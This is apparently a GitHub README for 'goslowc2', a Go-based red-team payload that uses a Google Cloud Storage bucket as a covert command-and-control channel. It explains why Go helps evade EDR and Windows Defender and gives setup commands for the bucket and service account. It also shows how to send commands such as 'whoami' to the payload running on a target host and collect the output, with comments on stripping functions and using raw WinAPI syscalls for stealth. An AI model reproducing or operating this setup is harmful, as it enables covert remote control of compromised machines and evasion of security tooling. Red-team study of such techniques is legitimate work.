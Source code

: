 # goslowc2
A demonstration of using GoLang and GCP Storage for a quick and easy evasion payload.

### Walkthrough
For a walkthrough of using this solution. Please visit the accompanying post: [Red Team Payload with Go and GCP](https://blog.scalesec.com/x-8123db77d2f)

### Why?
1. Found GoLang is not as widely supported for reverse engineering tools without plugins or some tuning which also infers that EDR platforms haven't caught up as much either
2. GoLang allows the advantage memory handling and type handling of scripting language but the performance of a compiled language because you can 'go build foo.go' something
3. Google Cloud Platform (GCP) Storage SDK automatically allows for authentication TLS v1.2 secure endpoints and a scratch pad for input and output for easy asynchronous communication
4. Running GoLang os.exec and the syscall.call methods to unsafe (non type casted) unsigned integer pointers C style for interesting Windows 10/11 Q4 2022 Defender default 'evasion' shell or additional payload routines vs. the C running the system method that immediately triggers a backdoor alert and cloud scan
5. General grudge: Google SOC sent me a nasty gram about my C payload stored in my personal Google Drive account. GoLang was made by Google Developers. I wanted to make it ironic because this would have been so much easier using a packer + python3.
6. Maybe you don't have access to the standard MSF multi/handler in a pen test?

### Complementing gowrap module
This module is to demonstrate using os.exec to wrap and execute another Go script or binary as a subprocess which easily can trigger an IOC but also allows for easy ingestion (with some modification) of running input.txt with straight GoLang WinAPI sys calls for future "evasion" considerations. I also included notes about some strange behaviors found when using user32.dll MessageBoxA.


## Code Setup
go mod init goslowc2/main

go get cloud.google.com/storage

go build goslowc2

## GCP Storage bucket setup

    gsutil mb gs://BUCKET_NAME
    
    gcloud iam service-accounts create SA_NAME \
        --description="DESCRIPTION" \
        --display-name="DISPLAY_NAME"
    
    gcloud projects add-iam-policy-binding PROJECT_ID \
        --member="serviceAccount:SA_NAME@PROJECT_ID.iam.gserviceaccount.com" \
        --role="ROLE_NAME"
    
For CLI need to create YAML for the permissions to bind to a role

    title: goslow-role  
    description: foo  
    stage: GA  
    includedPermissions:  
    -  storage.objects.create  
    -  storage.objects.get   

Create the role at the project level

    gcloud iam roles create role-id --project=project-id \
        --file=yaml-file-path

Bind the role to the service account

    gcloud iam service-accounts add-iam-policy-binding \  SA_NAME@PROJECT_ID.iam.gserviceaccount.com \  --member="user:USER_EMAIL"  \  --role="roles/iam.serviceAccountUser"

Grab a JSON key to download and run in the same directory as goslowc2

    gcloud iam service-accounts keys create KEY_FILE \
        --iam-account=SA_NAME@PROJECT_ID.iam.gserviceaccount.com

## Using the C2 Channel
1. Create a input.txt in the root namespace of your **bucket** with a single command syntax such as "whoami" or "dir"
2. Run goslowc2.exe on targethost
3. Wait for the output.txt to show up in your bucket in the same root namespace
4. gsutil cp gs://YOURBUCKET/*.txt ./
5. cat ./output.txt
6. echo "whoami" > input.txt
7. gsutil cp ./input.txt gs://YOURBUCKET


## Runtime
**IMPORTANT**: Be sure to modify any variables in the code before building as the initial values are for demo purposes only

    cp <yourserviceaccountkey.json> ./
    go build goslowc2.go
    goslowc2.exe #this is going to be your payload running on target host

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime2.png?raw=true)

![enter image description here](https://github.com/dc401/goslowc2/blob/main/screenshots/runtime1.png?raw=true)

## Notes
**DISCLAIMER**: The author is NOT responsible for misuse or abuse of this educational source
// goslowc2 is a demo payload execution for using GCP Storage bucket and objects as the C2 mechanism the time of development Q4 2022 windows defender did not trigger the OS.exec method unless functions were stripped at build time

// For stealthier payload consider using my complement consider using direct WinAPI syscalls converting to unsigned integer pointers

// Author: Dennis Chow dchow[AT]xtecsystems.com 11/20/2022

// Requirements: GCP storage bucket and service account credential foo.json in the same runtime directory

// Confirmed working on GoLang 1.18.4 and GCP Storage SDK 1.28.0
